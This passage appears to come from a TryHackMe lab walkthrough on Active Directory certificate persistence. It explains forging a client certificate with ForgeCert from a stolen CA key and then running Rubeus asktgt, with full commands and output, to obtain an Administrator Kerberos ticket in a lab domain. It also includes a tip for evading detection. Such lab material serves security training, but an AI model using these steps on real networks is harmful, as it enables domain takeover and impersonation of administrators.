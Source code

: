 ### Generating our own Certificates

Now that we have the private key and root CA certificate, we can use the SpectorOps [ForgeCert](https://github.com/GhostPack/ForgeCert) tool to forge a Client Authenticate certificate for any user we want. The ForgeCert and Rubeus binaries are stored in the C:\Tools\ directory on THMWRK1. Let's use ForgeCert to generate a new certificate:

![task4-terminal6](./images/task4-terminal6.png)

Parameters explained:

* **CaCertPath** - The path to our exported CA certificate.
* **CaCertPassword** - The password used to encrypt the certificate. By default, Mimikatz assigns the password of `mimikatz`.
* **Subject** - The subject or common name of the certificate. This does not really matter in the context of what we will be using the certificate for.
* **SubjectAltName** - This is the User Principal Name (UPN) of the account we want to impersonate with this certificate. It has to be a legitimate user.
* **NewCertPath** - The path to where ForgeCert will store the generated certificate.
* **NewCertPassword** - Since the certificate will require the private key exported for authentication purposes, we must set a new password used to encrypt it.

We can use Rubeus to request a TGT using the certificate to verify that the certificate is trusted. We will use the following command:

```
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:za.tryhackme.loc /dc:<IP of domain controller>
```

Let's break down the parameters:

* **/user** - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
* **/enctype** -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
* **/certificate** - Path to the certificate we have generated
* **/password** - The password for our certificate file
* **/outfile** - The file where our TGT will be output to
* **/domain** - The FQDN of the domain we are currently attacking
* **/dc** - The IP of the domain controller which we are requesting the TGT from. Usually, it is best to select a DC that has a CA service running

Once we execute the command, we should receive our TGT:

```
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/
       
         v2.0.0
       
       [*] Action: Ask TGT
       
       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
```